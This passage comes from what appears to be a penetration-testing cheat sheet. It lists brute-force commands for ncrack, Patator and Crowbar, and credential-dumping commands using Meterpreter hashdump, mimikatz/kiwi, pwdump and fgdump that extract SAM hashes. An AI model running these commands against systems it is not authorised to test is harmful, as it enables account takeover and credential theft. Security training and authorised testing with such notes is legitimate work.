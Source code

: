             -   ncrack -U user.txt -P pass.txt \[ip\]:\[port\_nb\]

            -   ncrack -U user.txt -P pass.txt \[ip\]:\[port\_nb\] --T 4
                -\> increase speed

            -   ncrack -U user.txt -P pass.txt \[ip\]:\[port\_nb\] --f
                -\> stop on success

        -   **Patator** -\> very fast and based on modules

            -   Patator --h

            -   Patator \[module\] -\> list module options

            -   Patator \[module\] host=\[ip\] user=\[user\]
                password=\[file.txt\]

        -   **Crowbar**

            -   perform password attacks on network protocols good for
                rdp and ssh key attack

            -   apt-get install crowbar

            -   crowbar -b \[protocol\] -s \[ip\] -u \[user\] -n
                \[wordlist\] -n \[nb of threats\]  

            -   crowbar -b rdp -s 192.168.1.4 -u admin -c /password.txt
                -n 15

            -   Arguments

                -   -t : threads

                -   -e ns : n=no password, s: password same as user

                -   -F : stop after success

    -   **Offline attack**

        -   **Extract the Hashes**

            -   **Meterpreter :**

                -   Hashdump

                -   Load kiwi

                    -   creds\_all

                -   Load mimikatz

            -   **Pwdump**

                -   Pwdump7.exe

                -   Pwdump7.exe -o outputfile.txt

                -   Pwdump7 SYSTEM SAM \> /root/sam.txt

            -   **Fgdump**

                -   Fgdump.exe -\> dump local pc
